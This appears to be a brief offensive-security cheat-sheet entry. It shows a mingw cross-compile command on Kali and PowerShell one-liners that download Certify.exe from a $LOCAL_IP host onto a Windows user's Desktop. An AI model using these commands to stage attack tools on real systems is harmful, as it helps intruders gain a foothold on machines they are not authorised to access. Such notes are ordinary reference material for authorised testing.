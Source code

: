 Cross compiling on KALI:
---
```bash
i686-w64-mingw32-gcc -o test.exe test.c
```

Download file using PowerShell:
---
#powershell #download #windows
```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
```powershell
iwr $URL -outfile $FILENAME
```
